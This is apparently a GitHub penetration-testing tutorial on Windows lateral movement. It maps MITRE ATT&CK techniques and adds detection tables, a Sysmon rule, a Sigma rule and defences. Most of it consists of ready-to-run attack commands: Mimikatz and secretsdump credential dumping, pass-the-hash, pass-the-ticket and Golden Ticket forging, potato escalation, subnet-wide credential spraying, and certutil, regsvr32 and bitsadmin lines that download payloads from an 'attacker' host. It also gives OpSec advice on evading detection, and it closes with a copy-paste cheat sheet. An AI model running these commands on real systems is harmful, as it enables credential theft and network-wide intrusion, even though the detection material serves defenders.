


# Lateral Movement Techniques
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What Is Lateral Movement?](#what-is-lateral-movement)
2. [The Adversary Mindset](#the-adversary-mindset)
3. [Technique Overview](#technique-overview)
4. [MITRE ATT&CK Technique Reference](#mitre-attck-technique-reference)
5. [Credential Reuse](#credential-reuse)
6. [Pass-the-Hash (PtH)](#pass-the-hash-pth)
7. [Pass-the-Ticket (PtT)](#pass-the-ticket-ptt)
8. [Remote Execution Methods](#remote-execution-methods)
9. [Token Impersonation](#token-impersonation)
10. [Living off the Land (LOLBins)](#living-off-the-land-lolbins)
11. [OpSec Considerations](#opsec-considerations)
12. [Detection & Defense](#detection--defense)
13. [Technique Relationship Diagram](#technique-relationship-diagram)

---

## What Is Lateral Movement?

**Lateral movement** (MITRE ATT&CK Tactic **TA0008**) refers to the techniques adversaries use to progressively move through an environment after gaining initial access — pivoting from one compromised host to other hosts, gaining access to additional credentials, data, and eventually high-value targets such as domain controllers, file servers, or database servers.

Lateral movement is not a single action but a **phase** in the attack lifecycle that bridges initial compromise and objective completion. It is where attackers spend the most time in advanced intrusions, often operating for weeks or months undetected.

```
Initial Access → Execution → Persistence → Privilege Escalation → Defense Evasion
       ↓
  Credential Access → Discovery → [LATERAL MOVEMENT] → Collection → Exfiltration
```

> **Note:** Lateral movement is explicitly separated from **privilege escalation** in MITRE ATT&CK. You can escalate privileges without moving laterally, and you can move laterally without escalating privileges — though the two are often combined.

### Why Lateral Movement Matters

| Perspective | Significance |
|-------------|--------------|
| Attacker | Expands access, increases persistence, reaches high-value targets |
| Defender | Opportunity to detect attackers before objective completion |
| Incident Responder | Scope of compromise is often revealed through lateral movement artifacts |
| Red Teamer | Demonstrates realistic attack path from initial access to domain compromise |

The **dwell time** (time between initial access and detection) in ransomware incidents is often 5–10 days. In espionage campaigns, it can exceed 200 days. During this entire time, the adversary is performing lateral movement.

---

## The Adversary Mindset

Thinking like an adversary during lateral movement requires asking the right questions at each step.

### The Pivot Loop

At every compromised host, an attacker runs through the same mental model:

1. **What am I?** — Local user, domain user, SYSTEM, local admin?
2. **Where am I?** — Hostname, domain, IP, subnet, network segmentation?
3. **What can I see?** — Reachable hosts, services, network shares?
4. **What do I have?** — Cached credentials, tokens, tickets, SSH keys, config files?
5. **Where can I go?** — Which reachable services accept my current credentials?
6. **What's the prize?** — Domain controller, database, file share, HR system?

### Attacker Objectives During Lateral Movement

- Reach the **Domain Controller** to dump the entire domain credential store (`ntds.dit`)
- Access **file servers** to identify and stage sensitive data for exfiltration
- Compromise **backup systems** to ensure long-term persistence
- Reach **out-of-band management interfaces** (IPMI, iDRAC, iLO) for hardware-level persistence
- Access **email servers** (Exchange) for intelligence gathering and BEC

> **Warning:** Lateral movement is the noisiest phase of an attack from a detection standpoint. Every technique leaves artifacts. Understanding detection is inseparable from understanding the techniques themselves.

---

## Technique Overview



---

## MITRE ATT&CK Technique Reference

Below is a comprehensive reference of MITRE ATT&CK lateral movement techniques under **TA0008**.

| Technique ID | Name | Sub-Technique | Description |
|---|---|---|---|
| **T1021** | Remote Services | — | Parent technique for all remote service abuse |
| T1021.001 | Remote Services: RDP | RDP | Using Remote Desktop Protocol to access remote systems |
| T1021.002 | Remote Services: SMB/WPS | SMB | Using Server Message Block for remote file execution |
| T1021.003 | Remote Services: DCOM | DCOM | Abusing Distributed COM objects for execution |
| T1021.004 | Remote Services: SSH | SSH | Using SSH for lateral movement on Unix/Linux |
| T1021.005 | Remote Services: VNC | VNC | Using VNC for remote desktop access |
| T1021.006 | Remote Services: WinRM | WinRM | Using Windows Remote Management for execution |
| **T1047** | WMI | — | Using Windows Management Instrumentation for execution |
| **T1053** | Scheduled Task/Job | — | Creating scheduled tasks for remote execution |
| T1053.002 | Scheduled Task/Job: AT | AT | Using legacy AT command for remote task scheduling |
| T1053.005 | Scheduled Task/Job: Schtasks | Schtasks | Using schtasks for remote scheduled execution |
| **T1072** | Software Deployment Tools | — | Abusing software deployment systems (SCCM, Ansible) |
| **T1080** | Taint Shared Content | — | Placing malicious content on network shares |
| **T1210** | Exploitation of Remote Services | — | Exploiting vulnerabilities in remote services (EternalBlue) |
| **T1534** | Internal Spearphishing | — | Phishing internal users from compromised accounts |
| **T1550** | Use Alternate Auth Material | — | Parent for hash/ticket passing techniques |
| T1550.001 | Use Alternate Auth: App Access Token | Token | Abusing OAuth/application tokens |
| T1550.002 | Use Alternate Auth: Pass-the-Hash | PtH | Using NTLM hash directly for authentication |
| T1550.003 | Use Alternate Auth: Pass-the-Ticket | PtT | Using stolen Kerberos tickets |
| T1550.004 | Use Alternate Auth: Web Session Cookie | Cookie | Reusing stolen web session cookies |
| **T1563** | Remote Service Session Hijacking | — | Hijacking existing remote sessions |
| T1563.001 | SSH Hijacking | SSH | Hijacking SSH sessions via agent forwarding |
| T1563.002 | RDP Hijacking | RDP | Hijacking RDP sessions via `tscon` |

> **Note:** The MITRE ATT&CK framework is updated regularly. Always cross-reference with [attack.mitre.org](https://attack.mitre.org/tactics/TA0008/) for the latest sub-technique additions.

---

## Credential Reuse

**Credential reuse** is consistently the most effective lateral movement technique in real-world engagements because it abuses legitimate authentication mechanisms — no exploits required, no AV evasion needed.

### Why It Works

- Users reuse passwords across systems (corporate studies cite 51–65% of users reuse passwords)
- IT admins often use shared local administrator passwords across workstations
- Service accounts often use the same password across multiple servers
- Default credentials are never changed on internal services

### The Credential Inventory

Before attempting lateral movement, build a credential inventory from the current host:

```bash
# Windows: find cached credentials
cmdkey /list

# Windows: SAM database (requires SYSTEM)
reg save HKLM\SAM C:\Temp\sam.hive
reg save HKLM\SYSTEM C:\Temp\system.hive

# Linux: check for reused SSH keys, config files
find / -name "id_rsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null
find / -name "*.ppk" 2>/dev/null
grep -r "password" /home/*/.bash_history 2>/dev/null
cat /home/*/.ssh/known_hosts 2>/dev/null
```

### Testing Credentials Across Services

```bash
# SMB — test across entire subnet
crackmapexec smb 192.168.1.0/24 -u Administrator -p 'Password123'

# WinRM
crackmapexec winrm 192.168.1.0/24 -u Administrator -p 'Password123'

# SSH
crackmapexec ssh 192.168.1.0/24 -u root -p 'Password123'

# RDP
crackmapexec rdp 192.168.1.0/24 -u Administrator -p 'Password123'

# MSSQL
crackmapexec mssql 192.168.1.0/24 -u sa -p 'Password123'
```

---

## Pass-the-Hash (PtH)

**Pass-the-Hash** exploits NTLM authentication's fundamental design: the hash itself is used as the credential during the challenge-response exchange. You never need the plaintext password.

### Obtaining Hashes

```bash
# Via Mimikatz (requires SYSTEM or local admin)
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# Via Impacket secretsdump (remote)
impacket-secretsdump domain/user:password@192.168.1.1

# Via secretsdump with local SAM hives
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

### PtH Execution

```bash
# Mimikatz PtH — spawns cmd.exe in the context of the target user
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:. /ntlm:HASH /run:cmd.exe"

# Impacket psexec with hash
impacket-psexec Administrator@192.168.1.1 -hashes :NTLM_HASH

# CrackMapExec PtH
crackmapexec smb 192.168.1.0/24 -u Administrator -H NTLM_HASH

# Evil-WinRM PtH
evil-winrm -i 192.168.1.1 -u Administrator -H NTLM_HASH
```

> **Warning:** PtH is blocked on modern Windows systems against **local accounts** that are not RID 500 (built-in Administrator) due to `LocalAccountTokenFilterPolicy`. Domain accounts with admin rights are not restricted by default.

---

## Pass-the-Ticket (PtT)

**Pass-the-Ticket** abuses Kerberos authentication by injecting a forged or stolen Kerberos ticket (TGT or service ticket) into the current logon session.

### Stealing Tickets

```bash
# List all tickets in memory
mimikatz.exe "kerberos::list"

# Export all tickets to .kirbi files
mimikatz.exe "kerberos::list /export"

# Dump tickets with Rubeus
Rubeus.exe dump /nowrap

# Request a TGT with hash (Overpass-the-Hash)
Rubeus.exe asktgt /user:Administrator /rc4:NTLM_HASH /ptt
```

### Injecting Tickets

```bash
# Import a .kirbi ticket into the current session
mimikatz.exe "kerberos::ptt ticket.kirbi"

# Rubeus pass-the-ticket
Rubeus.exe ptt /ticket:BASE64_TICKET

# Verify ticket was injected
klist
```

### Golden Ticket Attack

A **Golden Ticket** is a forged TGT created using the `krbtgt` account hash. It grants access to any service in the domain and is valid for 10 years by default.

```bash
# Step 1: Obtain krbtgt hash (requires domain admin)
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt"

# Step 2: Forge the Golden Ticket
mimikatz.exe "kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /ptt"

# Step 3: Access domain controller
dir \\DC01\C$
```

> **Note:** Golden Tickets survive password resets on all accounts except `krbtgt`. Defenders should reset `krbtgt` password **twice** (to invalidate both current and previous password) during incident response.

---

## Remote Execution Methods

Remote execution techniques allow code to run on a target system using valid credentials or hashes.

| Method | Transport | Port(s) | Privilege Required | Noise Level |
|--------|-----------|---------|-------------------|-------------|
| PSExec | SMB | 445 | Local Admin | High |
| WMI | RPC | 135/dynamic | Local Admin | Medium |
| WinRM | HTTP/S | 5985/5986 | Local Admin / WinRM Users | Low |
| RDP | RDP | 3389 | Remote Desktop Users | Medium |
| DCOM | RPC | 135/dynamic | Local Admin | Medium |
| Schtasks | SMB | 445 | Local Admin | Medium |
| AT | SMB | 445 | Local Admin | Medium |

### Quick Reference

```bash
# PSExec
impacket-psexec domain/user:password@192.168.1.1

# WMI
impacket-wmiexec domain/user:password@192.168.1.1

# WinRM
evil-winrm -i 192.168.1.1 -u user -p password

# DCOM
impacket-dcomexec domain/user:password@192.168.1.1

# SMBExec
impacket-smbexec domain/user:password@192.168.1.1

# ATExec (scheduled task)
impacket-atexec domain/user:password@192.168.1.1 "whoami"
```

---

## Token Impersonation

**Token impersonation** allows an attacker with `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` to steal the access token of a higher-privileged process and execute code in that context.

### Checking Current Privileges

```powershell
# Check current token privileges
whoami /priv

# Check if SeImpersonatePrivilege is present
whoami /priv | findstr /i "impersonate"
```

### Impersonation with Metasploit

```
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "CORP\\Domain Admin"
meterpreter > shell
```

### Impersonation with Incognito / PowerSploit

```powershell
# Invoke-TokenManipulation (PowerSploit)
Import-Module .\Invoke-TokenManipulation.ps1
Invoke-TokenManipulation -ImpersonateUser -Username "domain\administrator"
```

### Potato Exploits

When you have `SeImpersonatePrivilege` (common with IIS app pools, service accounts):

```bash
# PrintSpoofer — Windows 10 / Server 2019
PrintSpoofer.exe -i -c cmd

# SweetPotato
SweetPotato.exe -e EfsRpc -p cmd.exe -a "/c whoami"

# GodPotato
GodPotato.exe -cmd "cmd /c whoami"
```

> **Note:** `SeImpersonatePrivilege` is available to any service account, making it a near-universal local privilege escalation path on Windows when service accounts are used.

---

## Living off the Land (LOLBins)

**Living off the Land** (LotL) refers to using legitimate, pre-installed system binaries for malicious purposes. This reduces the need to drop tools on disk and evades signature-based detection.

### LOLBins Relevant to Lateral Movement

| Binary | Legitimate Purpose | Lateral Movement Abuse |
|--------|-------------------|----------------------|
| `wmic.exe` | WMI querying | Remote process creation, data collection |
| `mshta.exe` | HTA execution | Remote payload execution via UNC |
| `certutil.exe` | Certificate management | Download payloads, encode/decode |
| `regsvr32.exe` | DLL registration | Execute remote SCT scripts |
| `rundll32.exe` | DLL execution | Execute arbitrary DLL exports |
| `msiexec.exe` | MSI installation | Remote MSI payload delivery |
| `bitsadmin.exe` | Background transfer | Download payloads |
| `cscript.exe` | WSH script execution | Execute remote VBScript/JScript |
| `net.exe` | Network management | Enumerate shares, users, groups |
| `schtasks.exe` | Task scheduling | Remote scheduled task creation |

### LOLBin Examples

```cmd
rem WMIC — remote process creation
wmic /node:192.168.1.1 /user:Admin /password:Pass123 process call create "cmd /c whoami > C:\out.txt"

rem MSHTA — execute remote HTA
mshta.exe \\attacker\share\payload.hta

rem Certutil — download payload
certutil.exe -urlcache -split -f http://attacker/payload.exe C:\Temp\payload.exe

rem Regsvr32 — scriptlet execution (squiblydoo)
regsvr32.exe /u /n /s /i:http://attacker/payload.sct scrobj.dll

rem BITSAdmin — background download
bitsadmin /transfer job /download /priority high http://attacker/payload.exe C:\Temp\payload.exe
```

> **Warning:** Many LOLBins are monitored by EDR solutions. While they bypass traditional AV, modern endpoint detection products specifically watch for unusual usage patterns of these binaries (e.g., `certutil.exe` making HTTP connections).

### LOLBins for Remote Execution via Legitimate Admin Tools

```powershell
# PowerShell remoting (legitimate admin tool abused for lateral movement)
$sess = New-PSSession -ComputerName 192.168.1.1 -Credential $cred
Invoke-Command -Session $sess -ScriptBlock { whoami; hostname }
Copy-Item C:\Temp\payload.exe -Destination C:\Temp\ -ToSession $sess

# WSMAN (underlying WinRM protocol)
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="cmd.exe /c whoami"} -r:http://192.168.1.1:5985
```

---

## OpSec Considerations

**Operational Security (OpSec)** during lateral movement is about minimizing your footprint and avoiding detection.

### Noise Level Reference

| Activity | Log Source | Event IDs | Noise Level |
|----------|-----------|-----------|-------------|
| SMB authentication | Security | 4624, 4625 | High |
| PSExec service creation | System | 7045 | Very High |
| WMI process creation | Security, WMI-Activity | 4688, WMI | Medium |
| WinRM connection | WinRM | 4624 type 3 | Medium |
| Kerberos ticket request | Security | 4768, 4769 | Medium |
| PtH authentication | Security | 4624 NtLmSsp | High |
| RDP connection | Security, TermServices | 4624 type 10 | High |
| Scheduled task creation | Security | 4698 | High |

### OpSec Best Practices

1. **Use existing sessions** — hijack existing admin sessions instead of creating new ones
2. **Blend with normal traffic** — use the same tools admins use (WinRM, RDP) rather than custom tools
3. **Minimize disk writes** — run commands in memory, avoid writing files to disk
4. **Clean up artifacts** — remove scheduled tasks, service entries, temporary files
5. **Timing** — operate during business hours when admin activity is normal and less suspicious
6. **Use existing admin shares** — `ADMIN$`, `C$` are normal admin activity; avoid creating new shares
7. **Limit failed authentications** — failed login attempts trigger alerts; test credentials carefully

```bash
# Check domain lockout policy before spraying
net accounts /domain

# Check account status before targeting
crackmapexec smb 192.168.1.1 -u Administrator -p '' --pass-pol
```

---

## Detection & Defense

### Windows Event IDs for Lateral Movement Detection

| Event ID | Source | Description | Lateral Movement Indicator |
|----------|--------|-------------|--------------------------|
| 4624 | Security | Successful logon | Type 3 (network), Type 10 (RDP) from unusual sources |
| 4625 | Security | Failed logon | Multiple failures = spray/brute force |
| 4648 | Security | Logon with explicit credentials | RunAs, credential passing |
| 4672 | Security | Special privileges assigned | Admin logon — track these |
| 4688 | Security | Process creation | Look for WMI child processes, LOLBins |
| 4698 | Security | Scheduled task created | Remote task creation |
| 4776 | Security | NTLM authentication | PtH leaves NtLmSsp source |
| 4768 | Security | Kerberos TGT request | Abnormal accounts or from unexpected hosts |
| 4769 | Security | Kerberos service ticket request | Excessive requests = ticket harvesting |
| 5145 | Security | Network share access | Lateral movement via SMB |
| 7045 | System | New service installed | PSExec signature |

### Sysmon Events for Lateral Movement

```xml
<!-- Sysmon Event ID 3 - Network connection to lateral movement ports -->
<RuleGroup name="LateralMovement" groupRelation="or">
  <NetworkConnect onmatch="include">
    <DestinationPort condition="is">445</DestinationPort>
    <DestinationPort condition="is">5985</DestinationPort>
    <DestinationPort condition="is">3389</DestinationPort>
    <DestinationPort condition="is">135</DestinationPort>
  </NetworkConnect>
</RuleGroup>
```

### SIEM Detection Rules (Sigma Format)

```yaml
# Sigma rule for PSExec detection
title: PSExec Service Installation
status: stable
logsource:
  product: windows
  service: system
detection:
  selection:
    EventID: 7045
    ServiceName|contains: 'PSEXESVC'
  condition: selection
level: high
tags:
  - attack.lateral_movement
  - attack.t1021.002
```

### Defensive Recommendations

| Defense | Mitigates | Implementation |
|---------|-----------|----------------|
| **Credential Guard** | PtH, PtT | Enable via Group Policy / Device Guard |
| **Protected Users Group** | Credential caching, NTLM auth | Add sensitive accounts to group |
| **LAPS** | Local admin password reuse | Deploy Microsoft LAPS |
| **Tiered admin model** | Admin account reuse | Separate Tier 0/1/2 admin accounts |
| **Network segmentation** | Movement scope | VLAN separation, firewall rules |
| **Disable NTLM** | PtH | Require Kerberos where possible |
| **MFA for RDP/WinRM** | Credential reuse | Deploy MFA for remote admin access |
| **JIT/PAM** | Standing admin access | Use Privileged Access Workstations |

---

## Technique Relationship Diagram



---

## Quick Reference: Tools by Technique

```bash
# ============================================================
# CREDENTIAL DUMPING
# ============================================================
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
impacket-secretsdump domain/user:pass@TARGET
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

# ============================================================
# PASS-THE-HASH
# ============================================================
impacket-psexec Administrator@TARGET -hashes :NTLM_HASH
impacket-wmiexec Administrator@TARGET -hashes :NTLM_HASH
crackmapexec smb TARGET -u Administrator -H NTLM_HASH
evil-winrm -i TARGET -u Administrator -H NTLM_HASH

# ============================================================
# PASS-THE-TICKET
# ============================================================
Rubeus.exe dump /nowrap
Rubeus.exe ptt /ticket:BASE64
mimikatz.exe "kerberos::ptt ticket.kirbi"

# ============================================================
# REMOTE EXECUTION
# ============================================================
impacket-psexec domain/user:pass@TARGET
impacket-wmiexec domain/user:pass@TARGET
impacket-smbexec domain/user:pass@TARGET
impacket-atexec domain/user:pass@TARGET "cmd"
evil-winrm -i TARGET -u user -p pass
xfreerdp /u:user /p:pass /v:TARGET

# ============================================================
# LOLBINs
# ============================================================
wmic /node:TARGET process call create "cmd /c COMMAND"
schtasks /create /s TARGET /tn "Task" /tr "cmd /c COMMAND" /sc once /st 00:00
```

---

*Last updated for MITRE ATT&CK v15 | Tools: Impacket, Mimikatz, CrackMapExec, Rubeus, Evil-WinRM*
